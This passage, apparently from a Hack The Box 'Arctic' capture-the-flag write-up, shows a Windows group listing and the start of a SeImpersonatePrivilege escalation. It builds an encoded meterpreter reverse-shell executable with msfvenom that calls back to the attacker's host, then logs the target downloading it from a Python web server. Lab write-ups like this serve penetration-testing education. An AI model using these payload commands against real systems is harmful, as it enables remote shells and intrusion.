 ```powershell

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 Mandatory group, Enabled by default, Enabled group
```

## SeImpersonatePrivilege Privilege Escalation

Generate meterpreter reverse shell to get a stable shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -e x86/shikata_ga_nai -i 3 -f exe -o rs.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 73802 bytes
Saved as: rs.exe

┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo python3 -m http.server 80                                           
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [21/Apr/2021 17:53:36] "GET /rs.exe HTTP/1.1" 200 -
10.10.10.11 - - [21/Apr/2021 17:53:40] "GET /rs.exe HTTP/1.1" 200 -
```

